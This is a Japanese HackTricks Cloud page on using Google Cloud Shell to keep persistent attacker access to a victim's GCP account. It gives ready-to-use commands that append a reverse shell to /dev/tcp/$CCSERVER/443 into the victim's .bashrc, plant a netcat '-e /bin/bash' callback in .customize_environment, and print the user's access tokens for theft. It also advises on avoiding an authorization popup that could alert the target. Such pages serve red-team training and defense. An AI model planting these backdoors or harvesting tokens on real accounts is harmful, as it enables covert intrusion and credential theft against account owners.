 # GCP - Cloud Shell 永続性

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* **HackTricks**にPRを提出してハッキングのコツを共有する [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* &#x20;githubリポジトリ。

</details>

## Cloud Shell

詳細については、以下をチェックしてください:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### 永続的バックドア

[**Google Cloud Shell**](https://cloud.google.com/shell/)は、ブラウザから直接、追加費用なしでクラウドリソースへのコマンドラインアクセスを提供します。

GoogleのCloud Shellには、**ウェブコンソール**から、または**`gcloud cloud-shell ssh`**を実行してアクセスできます。

このコンソールには攻撃者にとって興味深い機能がいくつかあります:

1. **Google Cloudへのアクセス権を持つ任意のGoogleユーザー**は、完全に認証されたCloud Shellインスタンスにアクセスできます（サービスアカウントでも、組織のオーナーであっても可能です）。
2. 当該インスタンスは、活動がない場合でも少なくとも120日間はホームディレクトリを維持します。
3. 組織がそのインスタンスの活動を監視する機能は**ありません**。

これは基本的に、攻撃者がユーザーのホームディレクトリにバックドアを仕掛け、ユーザーが少なくとも120日ごとにGC Shellに接続する限り、バックドアが生き残り、攻撃者が実行するたびにシェルを取得できることを意味します。次のようにして:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

ホームフォルダには、**`.customize_environment`** という別のファイルがあり、存在する場合、ユーザーが**cloud shell**にアクセスする**毎回実行されます**（前述のテクニックのように）。前のバックドアを挿入するか、以下のようなものを挿入して、ユーザーが"頻繁に"cloud shellを使用する限り、永続性を維持します：
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
**Cloud ShellでGCPアクションを初めて実行する際に認証が必要な場合**、コマンドが実行される前にユーザーのブラウザに承認ウィンドウが**ポップアップ**します。予期せぬポップアップが表示されると、ターゲットが疑念を抱き、持続性の方法を潰す可能性があります。

これは、攻撃者としてcloud shellから`gcloud projects list`を実行した際に、ユーザーセッションのブラウザで表示されるポップアップです。
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

しかし、ユーザーが積極的にcloudshellを使用している場合、ポップアップは表示されず、**次の方法でユーザーのトークンを収集できます**：
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH接続が確立される方法

基本的に、以下の3つのAPIコールが使用されます：

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST]（ローカルで作成した公開鍵を追加します）
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST]（インスタンスを起動します）
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET]（Google Cloud ShellのIPを教えてくれます）

しかし、さらなる情報は[https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)で見つけることができます。

## 参考文献

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でゼロからヒーローまでのAWSハッキングを学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>こちら</strong></a><strong>をご覧ください！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTコレクション**](https://opensea.io/collection/the-peass-family)
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加する、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* **HackTricks**にPRを提出して、あなたのハッキングのコツを共有する。
*
*
* &#x20;githubリポジトリ。

</details>
